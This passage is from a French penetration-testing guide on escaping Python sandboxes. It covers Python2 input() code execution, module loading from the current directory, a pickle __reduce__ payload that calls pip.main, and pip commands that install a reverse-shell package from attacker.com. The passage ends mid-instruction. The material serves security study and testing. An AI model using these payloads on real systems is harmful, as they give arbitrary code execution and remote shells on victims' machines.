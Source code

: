 {% hint style="danger" %}
La fonction **Python2 input()** permet d'exécuter du code python avant que le programme ne plante.
{% endhint %}

Python essaie de **charger les bibliothèques depuis le répertoire courant en premier** (la commande suivante affichera où python charge les modules à partir de): `python3 -c 'import sys; print(sys.path)'`

![](<../../../.gitbook/assets/image (552).png>)

## Contourner le sandbox pickle avec les packages python installés par défaut

### Paquets par défaut

Vous pouvez trouver une **liste de packages pré-installés** ici: [https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html](https://docs.qubole.com/en/latest/user-guide/package-management/pkgmgmt-preinstalled-packages.html)\
Notez que depuis un pickle, vous pouvez faire en sorte que l'environnement python **importe des bibliothèques arbitraires** installées dans le système.\
Par exemple, le pickle suivant, lorsqu'il est chargé, va importer la bibliothèque pip pour l'utiliser:
```python
#Note that here we are importing the pip library so the pickle is created correctly
#however, the victim doesn't even need to have the library installed to execute it
#the library is going to be loaded automatically

import pickle, os, base64, pip
class P(object):
    def __reduce__(self):
        return (pip.main,(["list"],))

print(base64.b64encode(pickle.dumps(P(), protocol=0)))
```
Pour plus d'informations sur le fonctionnement de pickle, consultez ce lien: [https://checkoway.net/musings/pickle/](https://checkoway.net/musings/pickle/)

### Package Pip

Astuce partagée par **@isHaacK**

Si vous avez accès à `pip` ou `pip.main()`, vous pouvez installer un package arbitraire et obtenir un shell inversé en appelant:
```bash
pip install http://attacker.com/Rerverse.tar.gz
pip.main(["install", "http://attacker.com/Rerverse.tar.gz"])
```
Vous pouvez télécharger le package pour créer le shell inversé ici. Veuillez noter qu'avant de l'utiliser, vous devez **le décompresser, changer le fichier `setup.py` et mettre votre adresse IP pour le shell inversé** :
